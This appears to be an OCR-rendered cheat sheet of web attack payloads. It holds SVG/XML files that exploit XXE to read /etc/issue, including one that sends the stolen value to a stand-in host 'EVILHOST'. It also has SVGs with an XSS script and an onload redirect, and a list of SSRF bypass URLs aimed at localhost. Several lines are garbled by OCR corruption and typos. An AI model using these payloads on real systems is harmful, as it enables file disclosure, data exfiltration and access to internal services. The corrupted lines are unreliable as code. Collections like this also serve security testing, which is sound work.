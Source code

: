 ```xml
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/issue" > ]>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="40" x="0" y="15">&xxe;</text>
</svg>                    
```

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no��?>
<!DOCTYPE ENTY [ <!ENTITY XXE SYSTEM "file:///etc/issue��> ]>
<svg xmlns:svg=�쓍ttp://www.w3.org/2000/svg" xmlns=�쓍ttp://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height=��200">
<image xlink:href="http://EVILHOST:1337/SSRF?&XXE;" />
</svg>
```

```xml
<?xml version="1.1" standlone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <rect style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
  <script type="text/javascript">
    alert("XXE & XSS");
  </script>
</svg>
```

```xml
<code>
  <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
  <svg onload="window.location='URL'" xmlns="http://www.w3.rog/200/svg">
    <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
  </svg>
</code>
```

---
## SSRF Payload<br>

```
http://127.0.0.1/
http://localhost/
https://127.0.0.1/
https://localhost/
http://0.0.0.0
http://[::]:80
http://0000::1:80/
http://0177.0.0.1/
http://2130706433/
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
HTtP:/\匣�큓alhost
```

---